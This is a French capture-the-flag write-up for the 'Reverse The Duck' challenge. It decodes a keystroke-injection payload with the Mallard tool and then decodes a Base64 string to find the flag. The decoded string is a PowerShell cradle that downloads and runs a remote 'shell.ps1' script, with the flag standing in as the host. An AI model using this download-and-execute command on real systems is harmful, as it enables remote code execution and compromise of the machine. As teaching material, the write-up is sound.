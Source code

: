 # Write-Up - Reverse / Reverse The Duck

## Introduction

Ce challenge de reverse engineering consiste à extraire un **flag** caché dans un fichier binaire (`inject.bin`). Le processus de résolution comporte deux  étapes : l'utilisation de l'outil **Mallard** pour décoder le binaire, puis le décodage d'une **chaîne Base64** extraite.

## Étape 1 : Décodage du fichier `inject.bin`

Le fichier `inject.bin` contient des données encodées.
Pour décoder ce fichier, nous allons utiliser l'outil open-source [Mallard](https://github.com/dagonis/Mallard).

### Procédure :
1. Ouvrir un **terminal PowerShell**.
2. Cloner le dépôt GitHub de Mallard :
   ```bash
   git clone https://github.com/dagonis/Mallard
    ```
3. Entrer la commande :
    ```bash
   python3 mallard -f <path_to_file_inject.bin>
    ```

## Étape 2 : Décodage de la chaîne Base64

Le contenu obtenu contient une chaîne encodée en Base64.
```
SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vMjRIe1QwdXRfM3N0X0NAc3MzfS9zaGVsbC5wczEnKQ==
```

On peut utiliser le site [CyberChef](https://gchq.github.io/CyberChef/) pour décoder la chaine.
On peut alors trouver le flag dans la chaine décodée.
```bash
IEX (New-Object Net.WebClient).DownloadString('http://24HIUT{T0ut_3st_C@ss3}/shell.ps1')
```

## Flag

Le flag est `24HIUT{T0ut_3st_C@ss3}`.
